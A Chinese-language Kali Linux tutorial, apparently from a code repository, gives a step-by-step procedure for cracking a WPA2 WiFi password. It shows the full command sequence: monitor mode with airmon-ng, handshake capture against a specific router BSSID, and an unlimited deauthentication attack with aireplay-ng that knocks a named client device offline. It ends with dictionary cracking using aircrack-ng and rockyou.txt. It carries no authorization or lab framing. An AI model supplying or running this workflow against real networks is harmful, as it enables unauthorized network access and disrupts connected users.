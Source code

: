总操作流程：
- 1、[开启](#kail-linux-01)
- 2、[抓包](#kail-linux-02)
- 3、[破解](#kail-linux-03)

***

# <a name="kail-linux-01" href="#" >开启</a>

>1、开启监听模式

```shell
ifconfig wlan0 up

airmon-ng start wlan0

ifconfig
```

- 成功标志

![](image/1-1.png)

>2、开始扫描附近的无线网络

```shell
airodump-ng wlan0mon
```
![](image/1-2.png)

# <a name="kail-linux-02" href="#" >抓包</a>

>1、监听与获取

```
airodump-ng wlan0mon --bssid 78:02:F8:27:F8:BB -c 1 -w wpa2 
```
 - c指定频道号
 - bssid指定路由器bssid
 - w指定抓取的数据包保存位置

![](image/1-3.png)

 > 2、发起攻击（新开一个窗口，监听与获取那个窗口不用关闭）

`注意：这步需要有真正连接WiFi的设备，才能进行断开设备握手抓包，不可以不对的密码连接上就断开握包`
 ```shell
 aireplay-ng -0 0 -a 78:02:F8:27:F8:BB -c 30:B4:9E:D7:DA:71 wlan0mon
 ```

- 0表示发起deauthentication攻击， 0为无限
- a指定无线路由器BSSID
- c指定强制断开的设备


- 成功标志

!(image/2-4.png)

# <a name="kail-linux-01" href="#" >破解</a>

```
airmon-ng stop wlan0mon

# 解压字典
gzip -d /usr/share/wordlists/rockyou.txt.gz

cd ~

# 可以看到抓包的-w后的 wpa2的名字的.cap文件

ls wpa*

# 第一次抓包是01，第二次抓包是02
aircrack-ng -a2 -b 78:02:F8:27:F8:BB -w /usr/share/wordlists/rockyou.txt wpa2-01.cap

```
